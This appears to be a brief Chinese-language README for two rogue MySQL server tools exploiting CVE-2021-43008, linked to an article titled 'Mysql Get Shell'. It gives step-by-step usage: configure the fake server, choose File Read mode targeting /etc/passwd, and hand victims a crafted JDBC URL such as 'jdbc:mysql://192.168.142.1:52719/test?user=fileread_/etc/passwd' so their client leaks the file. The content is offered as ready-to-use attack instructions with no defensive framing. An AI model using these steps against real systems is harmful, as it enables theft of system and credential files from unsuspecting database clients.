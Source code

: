 [Mysql Get Shell](https://zhuanlan.zhihu.com/p/582577383)



## rogue_mysql_server.exe
CVE-2021-43008

数据库地址输入 x.x.x.x:3306 连接即可。 会读取config.yaml中的filelist

## fake-mysql-gui-0.0.2.jar
CVE-2021-43008

```sh
Payloadaddr 输入ip地址的上面的 Bindport
Mode: File Read
Cmd/File: /etc/passwd
点击  Generate Normal
得到 jdbc:mysql://192.168.142.1:52719/test?user=fileread_/etc/passwd

地址填:192.168.142.1:52719/
用户名填 fileread_/etc/passwd
其他随意填
```